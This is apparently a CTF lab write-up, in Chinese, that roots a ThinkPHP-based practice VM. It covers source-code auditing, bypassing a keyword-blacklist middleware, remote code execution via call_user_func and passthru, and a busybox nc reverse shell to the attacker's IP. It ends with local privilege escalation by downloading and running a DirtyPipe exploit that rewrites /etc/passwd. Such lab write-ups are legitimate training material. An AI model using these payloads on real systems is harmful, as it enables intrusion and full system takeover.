


# `tpN`



作者标的难度为`Easy`，但我觉得这应该有`Medium`，所以我把它放入了`Medium`文件夹。

这算是我做的第一个`thinkphp`审计+内核漏洞提权的靶机，感谢作者。

##  信息收集

### 端口扫描

```sh
root@kali:~# nmap 192.168.56.107 -p-          
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-09 22:32 -0400
Nmap scan report for 192.168.56.107
Host is up (0.0013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
MAC Address: 08:00:27:36:60:EC (Oracle VirtualBox virtual NIC)
```

### 指纹识别

```sh
root@kali:~# nmap 192.168.56.107 -p 22,8080 -sC -sV
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-09 22:32 -0400
Nmap scan report for 192.168.56.107
Host is up (0.0011s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
8080/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-open-proxy: Proxy might be redirecting requests
| http-git: 
|   192.168.56.107:8080/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|_      https://github.com/LSP1025923/thinkphp.git
|_http-server-header: Apache/2.4.62 (Debian)
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Thinkphp5
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 08:00:27:36:60:EC (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.04 seconds
```

观察到一个关键信息：

```
| http-git: 
|   192.168.56.107:8080/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|_      https://github.com/LSP1025923/thinkphp.git
```

在`GitHub`上存在仓库：`https://github.com/LSP1025923/thinkphp.git`。

这可能是8080端口`http`服务的源代码。

## 8080端口目标服务的功能分析

### 代码审计

查看入口文件`public/index.php`

```php
use think\App;
// [ 应用入口文件 ]
require __DIR__ . '/../vendor/autoload.php';
// 执行HTTP应用并响应
$http = (new App())->http;  
$response = $http->run();
$response->send();
$http->end($response);
```

这是整个 Web 应用的入口文件，Web 服务器将请求交给 `PHP` 后，会从这里开始执行；随后程序加载自动加载器，创建 `ThinkPHP` 应用并处理请求，最后把响应结果返回给客户端。

**查看应用配置`config/app.py`**

```php
// 核心的信息上面都有注释
return [
    'app_namespace'    => '',
    //  启用路由，项目会加载路由配置文件
    'with_route'       => true, 

    //  默认的应用是 index
    'default_app'      => 'index',
    'default_timezone' => 'Asia/Shanghai',

    //  访问think，会映射到admin
    'app_map'          => ["think"=>"admin"],
    'domain_bind'      => [],
    //	没有禁止任何通过url访问的应用
    'deny_app_list'    => [],

    'exception_tmpl'   => app()->getThinkPath() . 'tpl/think_exception.tpl',

    'error_message'    => '页面错误！请稍后再试～',
    'show_error_msg'   => false,
];
```

**查看路由配置文件`config/route.php`**

```php
return [
    // pathinfo分隔符
    'pathinfo_depr'         => '/',
    // 是否开启路由延迟解析
    'url_lazy_route'        => false,
    // 是否强制使用路由
    'url_route_must'        => false,
    // 是否区分大小写
    'url_case_sensitive'    => false,
    // 合并路由规则
    'route_rule_merge'      => false,
    // 路由是否完全匹配
    'route_complete_match'  => false,
    // 去除斜杠
    'remove_slash'          => false,
    // 默认的路由变量规则
    'default_route_pattern' => '[1-9]',
    // URL伪静态后缀
    'url_html_suffix'       => 'html',
    // 访问控制器层名称
    'controller_layer'      => 'controller',
    // 空控制器名
    'empty_controller'      => 'Error',
    // 是否使用控制器后缀
    'controller_suffix'     => false,
    // 默认模块名（开启自动多模块有效）
    'default_module'        => 'index',
    // 默认控制器名
    'default_controller'    => 'Index',
    // 默认操作名
    'default_action'        => 'index',
    // 操作方法后缀
    'action_suffix'         => '',
    // 非路由变量是否使用普通参数方式（用于URL生成）
    'url_common_param'      => true,
    // 操作方法的参数绑定方式 route get param
    'action_bind_param'     => 'get',
    // 请求缓存规则 true为自动规则
    'request_cache_key'     => true,
    // 请求缓存有效期
    'request_cache_expire'  => null,
    // 全局请求缓存排除规则
    'request_cache_except'  => [],
    // 请求缓存的Tag
    'request_cache_tag'     => '',    
];
```

主要的核心信息：

```php
// 是否强制使用路由
'url_route_must'        => false,
```

即使没有命中显示路由，也可以通过默认控制器路由访问控制方法。

```php
// 默认的路由变量规则
'default_route_pattern' => '[1-9]',
```

当我们写变量路由时，没有单独给变量指定规则时，它就会顶上去。

单独给变量指定规则：

```php
Route::rule("sdsa/:a/:b","index/ind")->pattern([
    'a' => '\w+',
    'b' => '\w+'
]);
```

**查看全局中间件文件`/app/middleware.php`：**

```php
<?php
// 全局中间件定义文件
return [
    // 全局请求缓存
    // \think\middleware\CheckRequestCache::class,
    // 多语言加载
    // \think\middleware\LoadLangPack::class,
    // Session初始化
     \think\middleware\SessionInit::class,
     \app\middleware\Check::class
];
```

return [ ... ] 里的类，会对所有请求生效。

`\think\middleware\SessionInit::class` : 用于 session 的初始化。

**查看`/app/middleware/Check.php`文件:**

```php
    public function handle($request, \Closure $next)
    {

        $pattern = '/\b(eval|exec|system|shell_exec|popen|proc_open|assert|base64_decode|file_get_contents|phpinfo)\b/i';
        if (preg_match($pattern, request()->url())) {
                return Response("麻辣隔壁，就你这个菜逼样子还想当黑客");

        }

        return $next($request);
    }
```

这里对于url进行了黑名单处理，如果url中存在这些关键字，请求会被在这里拦下来。

**查看别名中间件文件：/config/middleware.php**

```php
<?php
// 中间件配置
return [
    // 别名或分组
    'alias'    => ["Check1" => \app\middleware\Check1::class],
    // 优先级设置，此数组中的中间件会按照数组中的顺序优先执行
    'priority' => [],
];
```

**查看/app/middleware/Check1.php文件：**

```php
 public function handle($request, \Closure $next)
    {
        //
        if ((Session::get("sb")==Session::get("token")&&!empty(Session::get("sb"))&&!empty(Session::get("token")))){

            return $next($request);
        }
        else{
            echo Session::get("sb");
            echo "<br>";

            echo Session("token");
            return response("虽然我是新手,但是懂的一点token验证什么的");

        }
    }
```

这里做了判断，判断`sb`和`token`是否相等，`sb`和`token`不能为空。判断失败，这里会进行拦截。

 现在查看到底设置了啥显示路由：

```sh
root@kali:/tmp/123/thinkphp# grep -rn 'Route' . 
./route/app.php:11:use think\facade\Route;
./route/app.php:13://Route::get('think', function () {
./route/app.php:17://Route::get('hello/:name', 'index/hello');
./route/app.php:18:////Route::rule("details/:id","Index/details");
./route/app.php:19://Route::rule("details-:id-[:sb]","Index/details")->pattern(['id' => '\d+']);
./route/app.php:20://Route::rule("details-<id>-<sb>","Index/details")->pattern(['id' => '\d+'])->ext("html");
./route/app.php:21://Route::rule("details-<id>-<sb>","Index/details")->denyext("py|sb|html|oo");
./route/app.php:22://Route::rule(
./route/app.php:27://Route::rule("sb",function (){
./route/app.php:31://Route::rule("sb",function (){return "你成功调用闭包函数";});
./route/app.php:32://Route::rule("/","Index/index");
./route/app.php:33:////Route::miss(function(){
./route/app.php:37:////Route::miss("Error/miss");
./route/app.php:39://Route::group("index",function(){
./route/app.php:40://    Route::rule("hello/[:name]","hello");
./route/app.php:41://    Route::rule("test/:info","test");
./route/app.php:43://Route::rule("test/:info","Index/test");
./route/app.php:44://Route::rest("create", ["GET", "/add", "add"]);
./route/app.php:45://Route::resource("blog","Blog");
./route/app.php:46://Route::rule("/t/s","Tk/save")->token();
./route/app.php:47://Route::rule("c/y","Cap/verify");
./route/app.php:49://Route::rule();
./app/admin/route/app.php:11:use think\facade\Route;
./app/admin/route/app.php:13://Route::get('think', function () {
./app/admin/route/app.php:17://Route::get('hello/:name', 'index/hello');
./app/admin/route/app.php:18:////Route::rule("details/:id","Index/details");
./app/admin/route/app.php:19://Route::rule("details-:id-[:sb]","Index/details")->pattern(['id' => '\d+']);
./app/admin/route/app.php:20://Route::rule("details-<id>-<sb>","Index/details")->pattern(['id' => '\d+'])->ext("html");
./app/admin/route/app.php:21://Route::rule("details-<id>-<sb>","Index/details")->denyext("py|sb|html|oo");
./app/admin/route/app.php:22://Route::rule(
./app/admin/route/app.php:27://Route::rule("sb",function (){
./app/admin/route/app.php:31://Route::rule("sb",function (){return "你成功调用闭包函数";});
./app/admin/route/app.php:32://Route::rule("/","Index/index");
./app/admin/route/app.php:33:////Route::miss(function(){
./app/admin/route/app.php:37:////Route::miss("Error/miss");
./app/admin/route/app.php:39://Route::group("index",function(){
./app/admin/route/app.php:40://    Route::rule("hello/[:name]","hello");
./app/admin/route/app.php:41://    Route::rule("test/:info","test");
./app/admin/route/app.php:43://Route::rule("test/:info","Index/test");
./app/admin/route/app.php:44://Route::rest("create", ["GET", "/add", "add"]);
./app/admin/route/app.php:45://Route::resource("blog","Blog");
./app/admin/route/app.php:46://Route::rule("/t/s","Tk/save")->token();
./app/admin/route/app.php:47://Route::rule("c/y","Cap/verify");
./app/admin/route/app.php:49:Route::rule("sb/:a/:b","Admin/hello");  //我想给这块设置路由方便你们渗透的，不知道为什么我这个路由是无效的
```

 `./app/admin/route/app.php:49:Route::rule("sb/:a/:b","Admin/hello");  //我想给这块设置路由方便你们渗透的，不知道为什么我这个路由是无效的` 除了这条，其他的都进行了注释。

`Admin/hello`: 其中`Admin`为控制器，hello为`Admin`中的方法，所以我们查看`/app/admin/controller/Admin.php`文件：

```php
<?php

namespace app\admin\controller;

use app\BaseController;
use app\middleware\Check1;
class Admin extends BaseController
{
    protected $middleware =["Check1"];
    public function hello($a,$b)
    {
        call_user_func($b, $a);
    }

}
```

`protected $middleware =["Check1"];` : 设置中间件为`Check1`，当访问`admin/admin/hello`都会经过`Check1`的检查。

`call_user_func();`危险函数，$b和$a用户可以控制。

要到达这里，还需要`sb`和`token`，在项目里搜索与session有关的：

```sh
root@kali:/tmp/123/thinkphp# grep -rni 'session' .
./config/session.php:7:    // session name
./config/session.php:9:    // SESSION_ID的提交变量,解决flash上传跨域
./config/session.php:10:    'var_session_id' => '',
./app/middleware/Check1.php:7:use think\facade\Session;
./app/middleware/Check1.php:20:        if ((Session::get("sb")==Session::get("token")&&!empty(Session::get("sb"))&&!empty(Session::get("token")))){
./app/middleware/Check1.php:25:            echo Session::get("sb");
./app/middleware/Check1.php:28:            echo Session("token");
./app/middleware.php:8:    // Session初始化
./app/middleware.php:9:     \think\middleware\SessionInit::class,
./app/index/controller/ViewPage1.php:6:use think\facade\Session;
./app/index/controller/ViewPage1.php:31://            Session::set("xf","徐峰");
./app/index/controller/ViewPage1.php:32://            Session::set("user","徐峰");
./app/index/controller/ViewPage1.php:33:////            session(null);
./app/index/controller/ViewPage1.php:34:////            dump(Session::all());
./app/index/controller/ViewPage1.php:35://           return  json(request()->session());
./app/index/controller/Token.php:6:use think\facade\Session;
./app/index/controller/Token.php:15:            Session::set("sb", $sb);
grep: ./.git/index: binary file matches
```

发现关键信息：

```
./app/index/controller/Token.php:6:use think\facade\Session;
./app/index/controller/Token.php:15:            Session::set("sb", $sb);
```

Token.php 里面存在 session 有关的代码：

```php
    public function token()
    {
        $message = "请输入成员名称获取令牌";
        if (input("post.sb") == "admin") {
            $sb = $this->request->buildToken("token", "sha1");
            Session::set("sb", $sb);
            $message = "获取成功: " . $sb;
        } elseif (input("post.sb") !== null) {
            $message = "你是猪脑袋嘛，都明摆着了";
        }
    }
```

通过post请求输入`sb=admin`就会给sb设置值，最后将`session sb`的值输出给我们。

当我们访问`/app/admin/controller/Admin.php`的`hello`方法，先经过`check`，再经过`check1`，才能访问到危险函数。

## 漏洞利用

通过`/index/Token/token`获取`session`:

```sh
root@kali:/tmp/123/thinkphp# curl -i -c cookie.txt -b cookie.txt "http://192.168.56.107:8080/index/Token/token" -X POST -d "sb=admin"
HTTP/1.1 200 OK
Date: Sun, 10 May 2026 11:58:27 GMT
Server: Apache/2.4.62 (Debian)
Set-Cookie: PHPSESSID=59c7ee142c7c02fd5239b3e5a624fd90; expires=Sun, 10 May 2026 12:22:27 GMT; Max-Age=1440; path=/
Vary: Accept-Encoding
Content-Length: 1541
Content-Type: text/html; charset=utf-8

    <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>令牌获取</title>
    <style>
        body {
            background: linear-gradient(135deg, #0f0c29, #302b63, #24243e);
.................
    </style>
</head>
<body>
    <h1>令牌获取器</h1>
    <form method="post">
        <input type="text" name="sb" placeholder="输入成员名称" required>
        <input type="submit" value="获取">
    </form>
    <p class="message">获取成功: 0a5cc548592c90717beec5c389fde30fb7a43488</p>
</body>
</html>
```

我们将获取到的session放入到了cookie.txt，后面请求的话带着cookie.txt请求就可以。

```sh
root@kali:/tmp/123/thinkphp# curl -i -b cookie.txt "http://192.168.56.107:8080/think/sb/abc/print_r"
HTTP/1.1 404 Not Found
Date: Sun, 10 May 2026 12:02:57 GMT
Server: Apache/2.4.62 (Debian)
Set-Cookie: PHPSESSID=59c7ee142c7c02fd5239b3e5a624fd90; expires=Sun, 10 May 2026 12:26:57 GMT; Max-Age=1440; path=/
Content-Length: 6812
Content-Type: text/html; charset=utf-8
......
```

这里没有成功的原因是：

```php
// config/route.php
// 默认的路由变量规则
'default_route_pattern' => '[1-9]',

Route::rule("sb/:a/:b","Admin/hello");
```

我们设置路由时，并没有给路由变量a 和 b指定规则，所以默认为全局路由变量规则。从路由变量规则可以看出，这里只允许a 和 b用单个数字，单个数字无法让我们进行漏洞利用。解决办法：

```php
// 是否强制使用路由
'url_route_must'        => false,
```

我们也可以用默认的控制器路由访问方法：

```sh
root@kali:/tmp/123/thinkphp# curl -i -b cookie.txt "http://192.168.56.107:8080/think/Admin/hello"
HTTP/1.1 500 Internal Server Error
Date: Sun, 10 May 2026 12:12:41 GMT
Server: Apache/2.4.62 (Debian)
Set-Cookie: PHPSESSID=59c7ee142c7c02fd5239b3e5a624fd90; expires=Sun, 10 May 2026 12:36:41 GMT; Max-Age=1440; path=/
Content-Length: 6812
Connection: close
Content-Type: text/html; charset=utf-8
.......
```

这里并没有出现404，说明访问可达，500，可能是因为我们没有传递参数导致的报错。如何传参了：

```php
    // 操作方法的参数绑定方式 route get param
    'action_bind_param'     => 'get',
```

从这个信息可以看出，操作方法的参数被绑定到get请求参数上。

```sh
root@kali:/tmp/123/thinkphp# curl -i -b cookie.txt "http://192.168.56.107:8080/think/Admin/hello?a=abc&b=print_r"
HTTP/1.1 200 OK
Date: Sun, 10 May 2026 12:17:52 GMT
Server: Apache/2.4.62 (Debian)
Set-Cookie: PHPSESSID=59c7ee142c7c02fd5239b3e5a624fd90; expires=Sun, 10 May 2026 12:41:52 GMT; Max-Age=1440; path=/
Content-Length: 7
Content-Type: text/html; charset=utf-8

    abc   
```

传进去的abc被打印出来了，说明可以进行代码的执行。

当前网站存在`phpinfo.php`文件(目录枚举出来的)，可以查看系统禁用函数：



发现里面并没有`passthru`，check的黑名单也没有`passthru`，可以利用`passthru`执行命令。

## 反向shell

```sh
root@kali:/tmp/123/thinkphp# curl -i -b cookie.txt "http://192.168.56.107:8080/think/Admin/hello?a=busybox%20nc%20192.168.56.101%2039666%20-e%20/bin/bash&b=passthru"

#终端1

root@kali:~# nc -lvnp 39666
listening on [any] 39666 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.107] 53118
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
#终端2
```

## 优化shell

```sh
script -qc /bin/bash /dev/null
www-data@tpN:/var/www/tp8/public$ ^Z
zsh: suspended  nc -lvnp 39666
root@kali:~# stty raw -echo;fg
[1]  + continued  nc -lvnp 39666
                                reset
reset: unknown terminal type unknown
Terminal type? xterm
www-data@tpN:/var/www/tp8/public$ export SHELL=/bin/bash 
www-data@tpN:/var/www/tp8/public$ export TERM=xterm-256color
www-data@tpN:/var/www/tp8/public$ cd /home/welcome
www-data@tpN:/home/welcome$ source .bashrc
```

## CVE-2022-0847(DirtyPipe提权)

payload的网站：[DirtyPipe](https://github.com/n3rada/DirtyPipe#)

```sh
www-data@tpN:/home/welcome$ uname -a
Linux tpN 5.8.0-050800-generic #202008022230 SMP Sun Aug 2 22:33:21 UTC 2020 x86_64 GNU/Linux
```

这个linux内核刚好在`DirtyPipe`的影响范围了。

```sh
# 终端1
root@kali:~/tools/DirtyPipe# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
# 终端2
www-data@tpN:/home/welcome$ mkdir /tmp/123
www-data@tpN:/home/welcome$ cd /tmp/123
www-data@tpN:/tmp/123$ busybox wget http://192.168.56.101:8000/dpipe.c
Connecting to 192.168.56.101:8000 (192.168.56.101:8000)
dpipe.c              100% |********************************|  7683  0:00:00 ETA
```

提权：

```sh
www-data@tpN:/tmp/123$ gcc -o dpipe dpipe.c -static
www-data@tpN:/tmp/123$ ls -al
total 776
drwxr-xr-x 2 www-data www-data   4096 May 10 08:33 .
drwxrwxrwt 3 root     root       4096 May 10 08:33 ..
-rwxr-xr-x 1 www-data www-data 776552 May 10 08:33 dpipe
-rw-r--r-- 1 www-data www-data   7683 May 10 08:33 dpipe.c
www-data@tpN:/tmp/123$ ./dpipe --root
[Dirty Pipe] Attempting to backup '/etc/passwd' to '/tmp/passwd.bak'
[Dirty Pipe] Successfully backed up '/etc/passwd' to '/tmp/passwd.bak'
[Dirty Pipe] Initiating write to '/etc/passwd'...
[Dirty Pipe] Data size to write: 131 bytes
[Dirty Pipe] File '/etc/passwd' opened successfully for reading.
[Dirty Pipe] Pipe size determined: 65536 bytes
[Dirty Pipe] Filling the pipe...
[Dirty Pipe] Pipe filled successfully.
[Dirty Pipe] Draining the pipe...
[Dirty Pipe] Pipe drained successfully.
[Dirty Pipe] Data successfully written to '/etc/passwd'.
[Dirty Pipe] You can connect as root with password 'el3ph@nt!'
[Dirty Pipe] Program execution completed successfully.
www-data@tpN:/tmp/123$ su - root
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

